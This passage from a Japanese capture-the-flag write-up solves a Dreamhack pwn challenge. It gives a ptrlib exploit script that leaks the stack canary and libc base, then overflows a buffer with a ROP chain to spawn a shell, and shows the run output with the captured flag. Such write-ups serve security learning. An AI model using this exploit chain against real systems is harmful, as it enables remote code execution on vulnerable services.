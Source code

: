 ```
```
幸運なことにcanaryの24個下に`__libc_start_main+128`のアドレスもあるようだ。  
ここからlibcもリークできるため、あとは`readint`のBOFでROPすればよい(`docker cp`でコンテナからlibcを取り出しておく)。  
以下のexploit.pyで行う。  
```python
from ptrlib import *

elf = ELF("./prob")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF(
    "./docker_libc.so.6"
)  # ubuntu:22.04@sha256:b6b83d3c331794420340093eb706a6f152d9c1fa51b262d9bf34594887c2c7ac


# sock = Process("./prob")
sock = Socket("host3.dreamhack.games", 21337)
# sock.debug = True

# canary & libc leak
sock.sendlineafter("> ", "2.")
sock.sendlineafter("Write: .\n", "A" * 0xFF)
sock.sendlineafter("> ", "1.")
sock.recvuntil("A" * 0xFF)
sock.recv(8)
canary = u64(sock.recv(8))
logger.info("canary: " + hex(canary))
for i in range(23):
    sock.recv(8)
libc.base = u64(sock.recv(8)) - libc.symbol("__libc_start_main") - 0x80

# rop
payload = b"B" * 0x17
payload += p64(canary)
payload += p64(0)
payload += p64(next(libc.gadget("pop rdi; ret;")))
payload += p64(next(libc.search("/bin/sh")))
payload += p64(next(libc.gadget("ret;")))
payload += p64(libc.symbol("system"))
payload += b"."
sock.sendlineafter("> ", payload)

sock.sh()
```
実行する。  
```bash
$ python exploit.py
[+] __init__: Successfully connected to host3.dreamhack.games:21337
[+] <module>: canary: 0x375265027f292600
[+] base: New base address: 0x7f2c77a61000
[ptrlib]$ ls
flag
prob
[ptrlib]$ cat flag
DH{ef1293304febbec4353e3623eb998a2f316e1ed8fe52242f8f4a5172d02cbbc2}
```
flagが得られた。  

## DH{ef1293304febbec4353e3623eb998a2f316e1ed8fe52242f8f4a5172d02cbbc2}